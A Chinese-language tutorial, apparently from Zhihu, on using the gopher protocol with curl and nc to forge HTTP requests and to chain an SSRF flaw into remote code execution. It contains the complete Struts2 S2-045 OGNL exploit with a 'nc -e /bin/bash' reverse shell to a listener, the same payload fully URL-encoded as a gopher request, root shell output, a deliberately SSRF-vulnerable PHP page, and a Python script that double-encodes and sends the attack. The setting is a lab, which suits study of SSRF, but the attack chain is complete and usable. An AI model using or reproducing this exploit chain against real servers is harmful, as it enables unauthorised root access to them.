

# gopher

本文所使用到的工具：

1. curl
2. nc
3. docker(S2-045漏洞环境)
4. phpstudy

## 什么是gopher协议

定义：Gopher是Internet上一个非常有名的信息查找系统，它将Internet上的文件组织成某种索引，很方便地将用户从Internet的一处带到另一处。在WWW出现之前，Gopher是Internet上最主要的信息检索工具，Gopher站点也是最主要的站点，使用tcp70端口。但在WWW出现后，Gopher失去了昔日的辉煌。现在它基本过时，人们很少再使用它；

gopher协议支持发出GET、POST请求：可以先截获get请求包和post请求包，在构成符合gopher协议的请求。gopher协议是ssrf利用中最强大的协议

限制：gopher协议在各个编程语言中的使用限制



Gopher协议格式：

```
URL:gopher://<host>:<port>/<gopher-path>_后接TCP数据流
```

gopher的默认端口是70
如果发起post请求，回车换行需要使用`%0d%0a`，如果多个参数，参数之间的`&`也需要进行URL编码

## **Gopher发送请求HTTP GET请求**

使用Gopher协议发送一个请求，环境为：nc起一个监听，curl发送gopher请求

nc启动监听，监听2333端口：nc -lp 2333

使用curl发送http请求，命令为

```bash
curl gopher://192.168.0.119:2333/abcd
```

此时nc收到的消息为：

```bash
nc -lp 2333
bcd
```

可以发现url中的a没有被nc接受到，如果命令变为

```bash
curl gopher://192.168.0.119:2333/_abcd
```

此时nc收到的消息为：

```bash
nc -lp 2333
abcd
```

所以需要在使用gopher协议时在url后加入一个字符（该字符可随意写）

那么如何发送HTTP的请求呢？例如GET请求。此时我们联想到，直接发送一个原始的HTTP包不就可以吗？在gopher协议中发送HTTP的数据，需要以下三步：

> 1、构造HTTP数据包
> 2、URL编码、替换回车换行为%0d%0a
> 3、发送gopher协议

我准备了一个PHP的代码，如下：

```php
<?php
    echo "Hello ".$_GET["name"]."\n"
?>
```

一个GET型的HTTP包，如下：

```http
GET /ssrf/base/get.php?name=Margin HTTP/1.1
Host: 192.168.0.109
```

URL编码后为：

```bash
curl curl gopher://192.168.0.109:80/_GET%20/ssrf/base/get.php%3fname=Margin%20HTTP/1.1%0d%0AHost:%20192.168.0.109%0d%0A
```

在转换为URL编码时候有这么几个坑

> 1、问号（？）需要转码为URL编码，也就是%3f
> 2、回车换行要变为%0d%0a,但如果直接用工具转，可能只会有%0a
> 3、在HTTP包的最后要加%0d%0a，代表消息结束（具体可研究HTTP包结束）

## **Gopher发送请求HTTP POST请求：**

post.php的代码为

```php
<?php
    echo "Hello ".$_POST["name"]."\n"
?>
```

有4个参数为必要参数：

```text
POST /ssrf/base/post.php HTTP/1.1
host:192.168.0.109
Content-Type:application/x-www-form-urlencoded
Content-Length:11

name=Margin
```

现在我们将它进行URL编码：

```bash
curl gopher://192.168.0.109:80/_POST%20/ssrf/base/post.php%20HTTP/1.1%0d%0AHost:192.168.0.109%0d%0AContent-Type:application/x-www-form-urlencoded%0d%0AContent-Length:11%0d%0A%0d%0Aname=Margin%0d%0A
```

## 如何使用gopher协议反弹shell

以下为S2-045漏洞反弹shell的利用代码

我们在本地机器上执行：nc -lp 6666

```http
GET /S2-045/ HTTP/1.1
Host: 192.168.0.119
Content-Type:%{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='nc -e /bin/bash 192.168.0.119 6666').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```

我们将其变为gopher所能使用的请求

```bash
curl gopher://192.168.0.119:8080/_GET%20/S2-045/%20HTTP/1.1%0d%0aHost:192.168.0.119%0d%0aContent-Type:%25%7b%28%23%5f%3d%27%6d%75%6c%74%69%70%61%72%74%2f%66%6f%72%6d%2d%64%61%74%61%27%29%2e%28%23%64%6d%3d%40%6f%67%6e%6c%2e%4f%67%6e%6c%43%6f%6e%74%65%78%74%40%44%45%46%41%55%4c%54%5f%4d%45%4d%42%45%52%5f%41%43%43%45%53%53%29%2e%28%23%5f%6d%65%6d%62%65%72%41%63%63%65%73%73%3f%28%23%5f%6d%65%6d%62%65%72%41%63%63%65%73%73%3d%23%64%6d%29%3a%28%28%23%63%6f%6e%74%61%69%6e%65%72%3d%23%63%6f%6e%74%65%78%74%5b%27%63%6f%6d%2e%6f%70%65%6e%73%79%6d%70%68%6f%6e%79%2e%78%77%6f%72%6b%32%2e%41%63%74%69%6f%6e%43%6f%6e%74%65%78%74%2e%63%6f%6e%74%61%69%6e%65%72%27%5d%29%2e%28%23%6f%67%6e%6c%55%74%69%6c%3d%23%63%6f%6e%74%61%69%6e%65%72%2e%67%65%74%49%6e%73%74%61%6e%63%65%28%40%63%6f%6d%2e%6f%70%65%6e%73%79%6d%70%68%6f%6e%79%2e%78%77%6f%72%6b%32%2e%6f%67%6e%6c%2e%4f%67%6e%6c%55%74%69%6c%40%63%6c%61%73%73%29%29%2e%28%23%6f%67%6e%6c%55%74%69%6c%2e%67%65%74%45%78%63%6c%75%64%65%64%50%61%63%6b%61%67%65%4e%61%6d%65%73%28%29%2e%63%6c%65%61%72%28%29%29%2e%28%23%6f%67%6e%6c%55%74%69%6c%2e%67%65%74%45%78%63%6c%75%64%65%64%43%6c%61%73%73%65%73%28%29%2e%63%6c%65%61%72%28%29%29%2e%28%23%63%6f%6e%74%65%78%74%2e%73%65%74%4d%65%6d%62%65%72%41%63%63%65%73%73%28%23%64%6d%29%29%29%29%2e%28%23%63%6d%64%3d%27%6e%63%20%2d%65%20%2f%62%69%6e%2f%62%61%73%68%20%31%39%32%2e%31%36%38%2e%30%2e%31%31%39%20%36%36%36%36%27%29%2e%28%23%69%73%77%69%6e%3d%28%40%6a%61%76%61%2e%6c%61%6e%67%2e%53%79%73%74%65%6d%40%67%65%74%50%72%6f%70%65%72%74%79%28%27%6f%73%2e%6e%61%6d%65%27%29%2e%74%6f%4c%6f%77%65%72%43%61%73%65%28%29%2e%63%6f%6e%74%61%69%6e%73%28%27%77%69%6e%27%29%29%29%2e%28%23%63%6d%64%73%3d%28%23%69%73%77%69%6e%3f%7b%27%63%6d%64%2e%65%78%65%27%2c%27%2f%63%27%2c%23%63%6d%64%7d%3a%7b%27%2f%62%69%6e%2f%62%61%73%68%27%2c%27%2d%63%27%2c%23%63%6d%64%7d%29%29%2e%28%23%70%3d%6e%65%77%20%6a%61%76%61%2e%6c%61%6e%67%2e%50%72%6f%63%65%73%73%42%75%69%6c%64%65%72%28%23%63%6d%64%73%29%29%2e%28%23%70%2e%72%65%64%69%72%65%63%74%45%72%72%6f%72%53%74%72%65%61%6d%28%74%72%75%65%29%29%2e%28%23%70%72%6f%63%65%73%73%3d%23%70%2e%73%74%61%72%74%28%29%29%2e%28%23%72%6f%73%3d%28%40%6f%72%67%2e%61%70%61%63%68%65%2e%73%74%72%75%74%73%32%2e%53%65%72%76%6c%65%74%41%63%74%69%6f%6e%43%6f%6e%74%65%78%74%40%67%65%74%52%65%73%70%6f%6e%73%65%28%29%2e%67%65%74%4f%75%74%70%75%74%53%74%72%65%61%6d%28%29%29%29%2e%28%40%6f%72%67%2e%61%70%61%63%68%65%2e%63%6f%6d%6d%6f%6e%73%2e%69%6f%2e%49%4f%55%74%69%6c%73%40%63%6f%70%79%28%23%70%72%6f%63%65%73%73%2e%67%65%74%49%6e%70%75%74%53%74%72%65%61%6d%28%29%2c%23%72%6f%73%29%29%2e%28%23%72%6f%73%2e%66%6c%75%73%68%28%29%29%7d%0d%0a
```

一定要注意最后加上%0d%0a，以及很多URL编码工具将会回车换行转码为%0a，一定要自己替换为%0a%0d
发送请求后可以反弹shell

```bash
margine:~ margin$ nc -l 6666
id
uid=0(root) gid=0(root) groups=0(root)
```

## 在SSRF中如何使用gopher协议反弹shell?

1. 我们先准备了一个带有ssrf漏洞的页面，代码如下：

```php
<?php
    $url = $_GET['url'];
    $curlobj = curl_init($url);
    echo curl_exec($curlobj);
?>
```

这里需要注意的是，**你的PHP版本必须大于等于5.3**，并且在PHP.[ini文件](https://zhida.zhihu.com/search?content_id=113031903&content_type=Article&match_order=1&q=ini文件&zhida_source=entity)中开启了extension=php_curl.dll

2. 我在机器上开启了一个监听nc -lp 6666

然后在浏览器中访问：

```text
http://192.168.0.109/ssrf/base/curl_exec.php?url=gopher://192.168.0.119:6666/_abc
```

可以看到nc接收到了消息，没有问题。

```text
C:\Documents and Settings\Administrator\桌面>nc -lp 6666
abc
```

现在我们想，如何使用SSRF漏洞配合gopher协议来获取shell呢？我们的环境如下(为了节省资源，[攻击机](https://zhida.zhihu.com/search?content_id=113031903&content_type=Article&match_order=1&q=攻击机&zhida_source=entity)和有漏洞的主机是一台机器，请见谅。)：


上图就不具体说了，是一个典型的ssrf利用的解释图。
在使用ssrf去获取struts2的shell时，遇到了两次困难：

- PHP的curl_exec函数没有发起gopher的请求（这个问题上面已经说过）
- gopher一直请求不到目标页面

根据我的试错经历，我梳理了下如何一步步的完成gopher请求获取shell。
首先我们先做一些简单的事情，顺序如下：

1. 使用ssrf漏洞发起gopher请求，访问前面用到的get.php
2. 使用ssrf漏洞发起gopher请求，获取struts2主机的shell

**第一步**：
准备好访问get.php的数据包（**照搬的本文开始的包**）

```text
gopher://192.168.0.109:80/_GET%20/ssrf/base/get.php%3fname=Margin%20HTTP/1.1%0d%0AHost:%20192.168.0.109%0d%0A
```

那我们现在是否可以这样来组成我们的URL？

```text
http://192.168.0.109/ssrf/base/curl_exec.php?url=gopher://192.168.0.109:80/_GET%20/ssrf/base/get.php%3fname=Margin%20HTTP/1.1%0d%0AHost:%20192.168.0.109%0d%0A
```

我们来测试下，结果如下：


发现并没有出现get页面的hello Margin，说明请求失败，这个地方卡了一会，发现是因为在PHP在接收到参数后会做一次URL的解码，正如我们上图所看到的，%20等字符已经被转码为空格。所以，curl_exec在发起gopher时用的就是没有进行URL编码的值，就导致了现在的情况，所以我们要进行二次[URL编码](https://zhida.zhihu.com/search?content_id=113031903&content_type=Article&match_order=10&q=URL编码&zhida_source=entity)。编码结果如下：

```text
http://192.168.0.109/ssrf/base/curl_exec.php?url=gopher%3A%2F%2F192.168.0.109%3A80%2F_GET%2520%2Fssrf%2Fbase%2Fget.php%253fname%3DMargin%2520HTTP%2F1.1%250d%250AHost%3A%2520192.168.0.109%250d%250A
```

此时发起请求，得到如下结果：


发现已经正常，此时便说明我们的环境没有问题，SSRF漏洞利用正常，开始接下来的步骤。

**第二步**：
准备好struts2-045漏洞的利用代码，并进行二次编码，需要注意的是Content-Type中放了主要的漏洞利用代码，并且特殊字符多，将其单独进行编码，步骤如下：

1. 将gopher协议一直到Content-Type进行二次编码
2. 将Content-Type的值所有字符进行URL二次编码
   最终得到如下结果(太长，不列中间内容，省略部分为Content-type内容)：

```text
gopher%3A%2F%2F192.168.0.119%3A8080%2F_GET%2520%2FS2-045%2F%2520HTTP%2F1.1%250d%250aHost%3A192.168.0.119%250d%250aContent-Type%3A ......... %0d%0a
```

最终可以获取shell，结果如下图：

```text
margine:~ margin$ nc -l 6666
id
uid=0(root) gid=0(root) groups=0(root)
```

> **再试错的过程中发现：URL中的／不能进行两次编码，[端口号](https://zhida.zhihu.com/search?content_id=113031903&content_type=Article&match_order=1&q=端口号&zhida_source=entity)不可以两次编码,协议名称不可两次转码**

最后附上编码脚本（python2.7）：

```php
#!/usr/bin/python
# -*- coding: UTF-8 -*-
import urllib2,urllib

url = "http://192.168.0.109/ssrf/base/curl_exec.php?url="
header = """gopher://192.168.0.119:8080/_GET /S2-045/ HTTP/1.1
Host:192.168.0.119
Content-Type:"""
cmd = "nc -e /bin/bash 192.168.0.109 6666"
content_type = """自己填写(不要有换行)"""
header_encoder = ""
content_type_encoder = ""
content_type_encoder_2 = ""
url_char = [" "]
nr = "\r\n"

# 编码请求头
for single_char in header:
    if single_char in url_char:
        header_encoder += urllib.quote(urllib.quote(single_char,'utf-8'),'utf-8')
    else:
        header_encoder += single_char

header_encoder = header_encoder.replace("\n",urllib.quote(urllib.quote(nr,'utf-8'),'utf-8'))

# 编码content-type，第一次编码
for single_char in content_type:
    # 先转为ASCII,在转十六进制即可变为URL编码
    content_type_encoder += str(hex(ord(single_char)))
content_type_encoder = content_type_encoder.replace("0x","%") + urllib.quote(nr,'utf-8')
# 编码content-type，第二次编码
for single_char in content_type_encoder:
    # 先转为ASCII,在转十六进制即可变为URL编码
    content_type_encoder_2 += str(hex(ord(single_char)))
content_type_encoder_2 = content_type_encoder_2.replace("0x","%")
exp = url + header_encoder + content_type_encoder_2
print exp
request = urllib2.Request(exp)
response = urllib2.urlopen(request).read()
print response
```
